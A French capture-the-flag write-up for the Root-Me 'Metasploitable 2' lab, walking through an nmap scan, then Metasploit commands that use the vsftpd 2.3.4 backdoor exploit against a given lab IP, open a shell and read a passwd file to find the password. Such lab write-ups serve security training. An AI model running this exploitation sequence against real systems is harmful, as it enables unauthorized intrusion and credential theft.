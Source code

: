 # Metasploitable 2


Une fois l'environnement virtuel démarré et kali linux lancé, il faut récupérer l'adresse de l'environnement virtuel (exemple : `ctf01.root-me.org`).

Il faut lancer nmap sur Kali Linux, il faut taper cette commande :<br>
```nmap -v -A ctf01.root-me.org```<br>
L'argument **-v** sert à augmenter le niveau de verbosité, forçant Nmap à afficher plus d'informations sur le scan qu'il effectue. Les ports ouverts sont indiqués au fur et à mesure où ils sont trouvés ainsi qu'une évaluation du temps qui reste à scanner si Nmap pense que cela prendra quelques minutes. Utilisez cette option deux fois pour encore plus de verbosité.<br/>
L'argument **-A** sert à détecter le système d'exploitation et la version.

En parallèle de l'analyse, il faut lancer Metasploit avec cette commande :<br>
```msfconsole```

Une fois que l'analyse nmap est terminée, une faille sur le port 21 est affichée :

![Image de nmap](1.png)

Il faut utiliser le nom de cette faille sur Metasploit. Il faut chercher si les deux versions sont identiques en tapant sur Metasploit :<br>
```search vsftpd```

Metasploit la possède, il faut donc l'utiliser en tapant :<br>
`use exploit/unix/ftp/vsftpd_234_backdoor`

Puis il faut saisir le RHOSTS qui est vide par defaut, le RHOSTS correspond à l'adresse IP de l'environnement virtuel, elle est obtenue lors de l'analyse de nmap. La commande pour saisir le RHOSTS :<br>
`set RHOSTS 163.172.228.114`

Ceci fait, il faut lancer l'exploit en tapant :<br>
`exploit`

![Image de metasploit](2.png)

Ensuite, il faut éxécuter la commande `shell` puis `ls` et le fichier `passwd` est listé. Il faut donc l'ouvrir et le mot de passe se trouve à l'intérieur.
<br>
<br>
<br>
**_Notes :_**

*Nmap est un scanneur de ports libre. Il est conçu pour détecter les ports ouverts, indentifier les services hébergés et obtenir des informations sur le système d'exploitation d'un ordinateur distant.*<br>
*Metasploit est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration.*
